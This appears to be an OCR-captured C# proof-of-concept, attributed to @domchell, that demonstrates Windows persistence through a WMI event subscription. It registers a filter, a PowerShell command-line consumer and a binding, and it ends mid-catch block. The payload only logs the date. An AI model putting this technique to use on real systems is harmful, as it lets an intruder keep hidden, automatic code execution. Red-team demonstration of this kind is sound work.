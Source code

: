 ```csharp

// WMI Event Subscription Peristence Demo
// Author: @domchell

using System;
using System.Text;
using System.Management;

namespace WMIPersistence
{
    class Program
    {
        static void Main(string[] args)
        {
            PersistWMI();
        }

        static void PersistWMI()
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            try
            {
                ManagementScope scope = new ManagementScope(@"\\.\root\subscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceModificationEvent WITHIN 5 " + "WHERE TargetInstance ISA \"Win32_Service\"" + "AND TargetInstance.Name = \"winrm\"" 
                    + "AND TargetInstance.State = \"Stopped\"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"\root\cimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");

                myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
                myEventConsumer["Name"] = "MyCommandline";
                myEventConsumer["CommandLineTemplate"] = "powershell -Command \"get-date >>C:\\windows\\Temp\\getdate.txt\"";
                myEventConsumer["ExecutablePath"] = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
                myEventConsumer.Put();

                Console.WriteLine("[*] Event consumer created.");

                myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
```